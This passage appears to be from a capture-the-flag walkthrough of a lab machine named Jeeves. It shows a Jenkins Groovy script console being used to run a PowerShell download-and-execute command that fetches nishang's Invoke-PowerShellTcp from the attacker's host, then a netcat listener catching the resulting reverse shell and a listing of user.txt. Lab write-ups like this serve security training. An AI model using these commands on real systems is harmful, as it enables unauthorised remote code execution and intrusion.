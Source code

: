 ```
11/03/2017  10:47 PM               129 queue.xml.bak
11/03/2017  10:33 PM                64 secret.key
11/03/2017  10:33 PM                 0 secret.key.not-so-secret
12/24/2017  03:47 AM    <DIR>          secrets
11/08/2017  09:52 AM    <DIR>          updates
11/03/2017  10:33 PM    <DIR>          userContent
11/03/2017  10:33 PM    <DIR>          users
11/03/2017  10:47 PM    <DIR>          war
11/03/2017  10:43 PM    <DIR>          workflow-libs
              24 File(s)     74,753,892 bytes
              12 Dir(s)   7,267,758,080 bytes free

``` 

Now that there is discovered script access > we can move onto shell access
Google Search > found nishang powershell framework
Created www folder added Invoke-PowerShellTcp.ps1 (Added Example line to bottom of file to run)
Created a NC listener for powershell execution

## Testing for Shell access

### running Groovy download sCript
```
cmd = """powershell "IEX(new-object net.webclient).downloadstring('http://10.10.14.59/test.ps1')" """
println cmd.execute().text


nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.10.63] 49680
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>whoami
jeeves\kohsuke
```

Now that we have a shell with a viable user... let's see if this user has a user.txt

## User.txt

```
PS C:\Users\kohsuke\Desktop> dir


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        11/3/2017  11:22 PM             32 user.txt  
```
